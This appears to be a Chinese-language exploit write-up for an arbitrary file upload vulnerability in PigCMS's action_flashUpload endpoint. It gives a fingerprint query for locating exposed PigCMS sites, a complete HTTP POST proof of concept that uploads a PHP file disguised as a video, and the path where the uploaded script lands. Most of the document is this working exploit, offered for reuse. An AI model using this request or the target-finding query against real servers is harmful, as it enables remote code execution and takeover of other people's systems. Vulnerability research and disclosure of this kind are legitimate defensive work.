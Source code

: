 # PigCMS action_flashUpload 任意文件上传漏洞

## 漏洞描述

PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限

## 漏洞影响

<a-checkbox checked>pigcms</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app.name="PigCMS"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691722982834-8391fb00-7582-4fc7-95c5-2ebb2c4dcde6.png)

验证POC

```php
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```

![img](../../../.vuepress/public/img/1691723050483-3c961b57-f018-46c5-a6e0-db9af809d26f.png)

```php
/cms/upload/images/2023/08/11/1691722887xXbx.php
```